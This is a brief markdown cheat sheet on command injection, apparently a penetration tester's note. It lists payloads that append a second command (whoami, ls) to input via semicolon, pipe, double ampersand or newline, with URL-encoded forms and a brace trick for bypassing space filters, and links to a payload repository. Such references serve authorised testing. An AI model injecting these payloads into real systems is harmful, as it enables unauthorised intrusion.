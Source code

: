 # command injection


## payloads

Test command with:

    ;whoami - %3bwhoami
    |whoami - %7cwhoami
    &&whoami - %26%26whoami
    \nwhoami - %0awhoami

Bypassing space filters

    ;{ls,-la}

## Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#command-injection